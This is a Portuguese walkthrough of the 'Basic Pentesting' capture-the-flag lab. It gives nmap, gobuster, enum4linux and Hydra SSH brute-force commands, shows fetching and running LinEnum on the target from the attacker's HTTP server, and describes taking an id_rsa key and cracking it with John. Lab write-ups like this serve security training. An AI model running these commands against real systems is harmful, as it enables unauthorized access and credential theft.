# Basic Pentesting


## _**Enumeração***_
Vamos começar com um simples scan nmap para a descoberta de serviços e portas  
> ```bash
> nmap -p 0-10000 -A -T5 [ip_address]
> ```


Para descobrir o diretório escondido, vamos utilizar a ferramenta <mark>Gobuster</mark> e o comando abaixo
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
Em pouco tempo, temos o seguinte resultado:  

  

Vamos investigar um destes diretórios  


Este é o diretório escondido no endereço
Acessando os dois arquivos _.txt_, temos o seguinte em cada um:
Primeiro → dev.txt  

  

Segundo → j.txt  



Sabemos pelo scan nmap e pela segunda mensagem no _.txt_ que a senha é fraca e o serviço utilizado é o <mark>SMB</mark>  
Podemos tentar enumerar este serviço com a ferramenta <mark>enum4linux</mark>  



Nomes importantes descobertos:
* -K → <mark>kay</mark>
* -J → <mark>jan</mark>

Vamos tentar um ataque de força bruta contra o usuário _**jan**_
> ```bash
> hydra -l jan -P ../wordlists/rockyou.txt ssh://[ip_address]
> ```


Achamos a senha!  
Vamos conectar via SSH neste usuário  
Existe uma ferramenta que facilita a escalação de privilégios, <mark>LinEnum</mark>, vamos realizar o download e transferi-la para a máquina alvo  

Primeiro passo (máquina host):
> ```bash
> curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
> ```
> ```bash
> chmod +x LinEnum.sh
> ```
> ```bash
> sudo python3 -m http.server 80
> ```

Segundo passo (máquina alvo):
> ```bash
> wget http://[vpn_ip]/LinEnum.sh
> ```

Permissão negada!  
Porém, ainda tem mais uma tática  
Para isto, vamos utilizar base 64  

Primeiro passo (novamente) (máquina host):
> ```bash
> curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
> ```
> ```bash
> chmod +x LinEnum.sh
> ```
> ```bash
> base64 LinEnum.sh > lin.b64
> ```
> ```bash
> sudo python3 -m http.server 80
> ```

Segundo passo (máquina alvo):
> ``` bash
> wget http://[vpn_ip]/LinEnum.sh -O /tmp/lin.b64
> ```
> ``` bash
> cd /tmp
> ```
> ``` bash
> base64 -d lin.b64 > LinEnum.sh
> ```
> ``` bash
> chmod +x LinEnum.sh
> ```
> ``` bash
> ./LinEnum.sh
> ```

Sucesso!  



Identificamos que kay é um usuário privilegiado  
Vamos navegar em seu <mark>/home</mark>  



Vamos verificar o conteúdo de .ssh  

  

Um arquivo muito importante está ali, id_rsa. Vamos verificar seu conteúdo  



Copiando o arquivo para a nossa máquina, vamos usar o <mark>John the Ripper</mark> para quebrar esta hash e realizar login via ssh no usuário kay, obtendo a resposta de senha  


